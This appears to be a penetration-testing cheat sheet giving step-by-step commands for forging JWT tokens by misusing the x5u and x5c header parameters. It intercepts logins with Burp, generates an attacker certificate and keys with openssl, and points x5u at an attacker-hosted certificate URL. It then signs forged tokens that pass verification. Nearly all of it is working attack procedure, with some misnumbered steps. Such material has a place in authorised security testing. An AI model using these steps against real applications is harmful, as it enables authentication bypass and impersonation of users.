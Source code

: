 ```python

x5u Claim Misuse:
Note: The algorithm used for signing the token is “RS256”.
The token is using x5u header parameter which contains the location of the X.509 certificate to be used for token verification.

1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Decode the JWT token and check if it contents x5u attribute in Header section.
4. Creating a self-signed certificate
			"openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -out attacker.crt"
5. Extracting the public key from the generated certificate:
			"openssl x509 -pubkey -noout -in attacker.crt > publicKey.pem"
6. Use Jwt.io and paste the public key (publicKey.pem) and the private key (attacker.key) in their respective places in the "Decoded" section.
7. Set "x5u: http://192.87.15.2:8080/attacker.crt" you can use repl.it to host
8. Done Use forged jwt token in request.

x5c Claim Misuse:
Note:The algorithm used for signing the token is “RS256”.
The token is using x5c header parameter which contains the X.509 certificate to be used for token verification.
The token has various fields: n, e, x5c, x5t, kid. Also, notice that kid value is equal to x5t value.

1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Decode the JWT token and check if it contents x5c attribute in Header section.
* https://jwt.io automatically extracts the X.509 certificate and places it in the “Verify Signature” sub-section in “Decoded” section.

4. Create a self-signed certificate:
		"openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -out attacker.crt"
5. Extracting RSA public key parameters (n and e) from the generated certificate
		"openssl x509 -in attacker.crt -text"
6. Converting modulus (n) to base64-encoded hexadecimal strings
		"echo "Modules (n) value will be here"| sed ‘s/://g’ | base64 | tr ‘\n’ ‘ ‘ | sed ‘s/ //g’ | sed ‘s/=//g’"
7. Converting exponent (e) to base64-encoded hexadecimal strings
		"echo "exponent (e) here" | base64 | sed ‘s/=//g’"
8. Finding the new x5c value
		"cat attacker.crt | tr ‘\n’ ‘ ‘ | sed ‘s/ //g’"
9. Copy the contents excluding the — -BEGINCERTIFICATE — — and — — ENDCERTIFICATE — — part.
8. Finding the new x5t value
		"echo -n $(openssl x509 -in attacker.crt -fingerprint -noout) | sed ‘s/SHA1 Fingerprint=//g’ | sed ‘s/://g’ | base64 | sed ‘s/=//g’"
* Note: The kid parameter would also get the same value as x5t parameter.
9. Creating a forged token using all the parameters calculated in the previous step.
10. Visit https://jwt.io and paste the token retrieved in Step 3 in the “Encoded” section.
11. Paste the X.509 certificate (attacker.crt) and the private key (attacker.key) in their respective places in the “Decoded” section.
12. Manipulate Payload section and copy the forged token
13. Replace the forged token in the request and forward. Done!!

```
